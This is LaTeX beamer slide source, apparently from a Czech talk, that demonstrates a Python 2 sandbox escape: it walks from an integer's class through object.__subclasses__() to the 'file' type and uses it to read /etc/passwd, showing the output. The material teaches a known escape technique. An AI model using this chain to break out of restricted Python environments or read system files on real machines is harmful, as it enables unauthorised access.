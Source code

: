 \documentclass[20pt]{beamer}
\newcommand\rd[2]{\alt<#1>{\textcolor{ta2chameleon}}{\textcolor{ta2chameleon}}{\uncover<#1->{#2}}}
\begin{document}
\begin{center}
{\bigskip\pause\bigskip

Ještě tak mít ten \rd{1}{\_\_import\_\_}...
}

\begin{frame}[fragile]
\begin{lstlisting}
>>> (42).bit_length()
6
$\pause$
>>> dir(42)
[..., '__add__', '__class__',
    '__doc__', '__hash__',
    '__str__', 'bit_length', ...]
$\pause$
>>> (42).__class__
<type 'int'>
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
\begin{lstlisting}
>>> (42).__class__.mro()
[<type 'int'>, <type 'object'>]
$\pause$
>>> '42'.__class__.mro()
[<type 'str'>, <type 'basestring'>, <type 'object'>]
$\pause$
>>> (42).__class__.mro()[-1]
<type 'object'>
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
\begin{lstlisting}
>>> (42).__class__.mro()[-1]
$<type 'object'>$
$\pause$
>>> ((42).__class__.
        mro()[-1].__subclasses__())
$[<type 'type'>, <type 'weakref'>, ...,$
    $<type 'int'>, <type 'basestring'>, ...,$
    $<type 'super'>, <type 'xrange'>, ...,$
    $<type 'function'>, <type 'classobj'>, ...,$
    $<type 'sys.version\_info'>, ...,$
    $<class 'warnings.catch\_warnings'>, ...,$
    $<class 'codecs.IncrementalEncoder'>, ...]$
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
\begin{lstlisting}
>>> [c for c in ((42).__class__.
        mro()[-1].__subclasses__())
    if c.__name__ == 'file'][0]
$<type 'file'>$
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
\begin{lstlisting}
>>> [c for c in (42).__class__.
        mro()[-1].__subclasses__()
    if c.__name__ == 'file'][0](
        '/etc/passwd').read()

$'root:x:0:0:root:/root:/bin/bash{\textbackslash}n$...
\end{lstlisting}
\end{frame}


\end{center}
\end{document}

